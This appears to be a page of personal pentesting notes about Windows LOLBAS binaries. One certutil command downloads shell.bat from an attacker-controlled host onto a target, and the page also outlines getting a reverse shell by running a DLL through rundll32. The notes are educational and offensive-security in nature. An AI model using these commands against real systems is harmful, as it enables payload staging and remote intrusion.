

repository: amandaguglieri/hackinglife · page: windows-binaries/index.html · generator: mkdocs

---
title: Windows binaries -  LOLBAS
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege escalation
  - windows
---

# Windows binaries -  LOLBAS 

Equivalent to [suid binaries from linux](suid-binaries.md) in Windows would be: [LOLBAS: https://lolbas-project.github.io/](https://lolbas-project.github.io/) (Living Off The Land Binaries, Scripts and Libraries),

 Each of these binaries, scripts and libraries is a Microsoft-signed file that is either native to the operating system or can be downloaded directly from Microsoft and have unexpected functionality useful to an attacker.

## Transferring File with Certutil

One classic example is [certutil.exe](certutil.md), whose intended use is for handling certificates but can also be used to transfer files by either downloading a file to disk or base64 encoding/decoding a file.

Import a file (type from your windows target host):

```powershell
certutil.exe -urlcache -split -f http://$ipAtacker:8080/shell.bat shell.bat
```

Encode to base64:

```cmd
certutil -encode file1 encodedfile
```

Decode a file:

```cmd
certutil -decode encodedfile file2
```


## Execute a DLL file with rundll32.exe

A binary such as [rundll32.exe](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/) can be used to execute a DLL file. 

We could use this to obtain a reverse shell by executing a .DLL file that we either download onto the remote host or host ourselves on an SMB share.
